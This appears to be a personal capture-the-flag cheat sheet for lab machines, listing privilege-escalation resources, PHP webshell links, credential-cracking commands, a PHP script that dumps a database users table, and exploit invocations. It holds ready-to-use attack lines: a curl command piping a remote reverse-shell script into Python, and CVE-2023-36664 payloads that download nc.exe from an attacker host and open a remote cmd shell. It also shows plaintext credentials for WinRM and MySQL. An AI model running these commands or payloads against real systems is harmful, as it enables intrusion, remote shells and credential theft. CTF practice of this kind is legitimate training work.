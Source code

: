 # CTF gathered resources 

## PrivEsc

```
https://gtfobins.github.io/
```
## Commands

- `sudo -l`
- `puttygen keeper.ppk -O private-openssh -o keeper.pem` PPK to PEM
- `ansible2john ansible.vaul >> hashes`

## Webshells

- PHP webshell file upload feature - https://raw.githubusercontent.com/artyuum/simple-php-web-shell/master/index.php
- PHP webshell, multiple function exploit - https://github.com/flozz/p0wny-shell

## Python Shell

```
python2 handler.py -b 10.10.14.92:8888
# Run the reverse shell
curl 10.10.14.92:8000/shell.py|python3
```
## Kali

`/usr/share/windows-binaries/nc.exe`

## Samba

```
smbclient -L \\\\authority.htb\\
smbclient  \\\\authority.htb\\Development
```

## Windows

- `evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'` SSH for windows
-  `sudo responder -I tun0` Start some service

## PHP get DB

```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
$sql = "SELECT * FROM users";

// Execute the query
$result = mysqli_query($link, $sql);
if ($result) {
    // Check if there are rows in the result set
    if (mysqli_num_rows($result) > 0) {
        // Output data of each row
        while ($row = mysqli_fetch_assoc($result)) {
            print_r($row); // You can customize this output based on your needs
            echo "<br>";
        }
    } else {
        echo "No records found";
    }

    // Free result set
    mysqli_free_result($result);
} else {
    echo "ERROR: Could not execute $sql. " . mysqli_error($link);
}

// Close connection
mysqli_close($link);
?>
```

## RoundCube

```
python3 CVE_2023_36664_exploit.py --generate --payload "curl 10.10.14.92:8000/nc.exe -o nc.exe" --filename first --extension eps
# execute shell
python3 CVE_2023_36664_exploit.py --generate --payload "nc.exe -e cmd.exe 10.10.14.92 6666" --filename second --extension eps
```
